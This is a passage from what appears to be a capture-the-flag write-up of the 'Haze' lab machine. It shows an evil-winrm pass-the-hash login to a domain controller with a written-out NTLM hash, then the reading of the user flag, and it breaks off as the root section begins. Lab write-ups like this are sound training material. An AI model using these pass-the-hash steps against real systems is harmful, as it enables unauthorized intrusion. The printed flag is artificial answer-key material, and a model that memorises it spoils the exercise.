 i think now we got user.txt

```bash
➜  Haze evil-winrm -i DC01.haze.htb -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> cd ..
*Evil-WinRM* PS C:\Users\edward.martin> cd Desktop
*Evil-WinRM* PS C:\Users\edward.martin\Desktop> type user.txt
df7b7451d7f92323d3dabc0d6881fb9e
```

## Root

at winrm i found something important fastly.

![alt text](../assets/images/haze20.png)

and look at C:\
